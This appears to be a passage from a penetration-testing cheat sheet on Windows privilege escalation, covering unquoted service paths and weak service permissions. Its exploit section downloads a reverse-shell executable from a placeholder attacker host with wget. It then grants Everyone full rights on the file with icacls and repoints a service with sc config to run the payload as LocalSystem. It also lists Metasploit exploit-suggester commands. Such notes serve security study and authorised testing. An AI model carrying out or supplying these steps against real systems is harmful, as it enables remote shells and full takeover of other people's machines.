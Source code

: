 Example : the path is C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
The SCM doesn't know wich version to execute

|Command	| Argument 1 |	Argument 2
|:----------|:-----------|:-------------
C:\MyPrograms\Disk.exe | Sorter | Enterprise\bin\disksrs.exe
C:\MyPrograms\Disk Sorter.exe | Enterprise\bin\disksrs.exe | 
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

The SCM will search for option 1 to option 3 in order  
This means that we can create an executable 

Follow Insecure Permissions steps

#### Insecure Service Permissions
If the DACL allows you to modify the configuration of a service, you will be able to reconfigure the service.  
This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM !

You can use https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk to check for the DACL Service

```cmd
accesschk64.exe -qlc SERVICE_NAME
```
This response means permissions are no well set :
```
[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
Let's exploit it

```powershell
# import the .exe reverse shell to execute
wget http://....:.../FILE.exe -O rev.exe
```
```cmd
# Change rights (like chmod 777 under Unix)
icacls C:\Users\PATH_TO_REVERSE_SHELL\rev.exe /grant Everyone:F
# Change the service configuration 
sc config SERVICE_NAME binPath= "C:\PATH_TO_REVERSE_SHELL\rev.exe" obj= LocalSystem
```

## Abusing Dangerous Privileges

## Abusing Vulnerable Software

## Metasploit
```msfconsole
run post/multi/recon/local_exploit_suggester
```

```msfconsole
run path/to/exploit 
```
Notice that it isn't because the exploit doesn't escalate us to nt authority/ System that it hasn't wordked.  
Checks permissions with `getprivs`, some may have appeared
